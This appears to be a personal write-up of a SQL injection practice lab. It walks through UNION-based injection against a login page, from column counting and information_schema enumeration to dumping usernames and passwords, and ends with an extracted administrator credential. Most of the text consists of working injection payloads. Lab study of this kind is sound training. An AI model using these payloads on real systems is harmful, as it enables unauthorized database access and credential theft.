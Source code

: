 # Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version-- (:x:)
    - ' UNION SELECT version()-- (:x:)
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version-- (:x:)
    - UNABLE TO GET VERSION SO I AM GOING IN BLIND 
- Determine number of columns needed for UNION
    - ' ORDER BY (number)--
        - stop when you get an error
    - ' ORDER BY 3-- (:white_check_mark:)
        - Yielded error so we know there are 2 columns
        - ALL tables have 2 columns
        - ![](./pics/213724.png)
- Determine which columns can handle text (to display juicy info)
    - ' UNION SELECT 'a',NULL,NULL,...--
        - Did not dual thus non-Oracle 
    - ' UNION SELECT 'a',NULL-- (:x:)
    - ' UNION SELECT NULL,'a'-- (:white_check_mark:)
        - Only second column supports text (maybe uname and pword in same column?)

# Getting Column Values
- Get list of table names
    - ' UNION SELECT NULL,table_name FROM information_schema.tables--
        - Order matters since only the 2nd column can hold text
- CRTL-F 'user' to find potential tables
    - users (:white_check_mark)
    - ![](./pics/215841.png)
- Get columns for the tables 
    - ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users'--
        - username | password
    - ![](./pics/220147.png)
- Get the column data using string concatenation stuff
    - ' UNION SELECT NULL,username || '*' || password FROM users--
        - Need to select two columns AND 1st column cannot hold text
        - '*' is a separator since characters would blend together otherwise
    - ![](./pics/225112.png)
- Admin Info
    - uname: administrator
    - pword: glvhgxj7pl7uqbosfas5






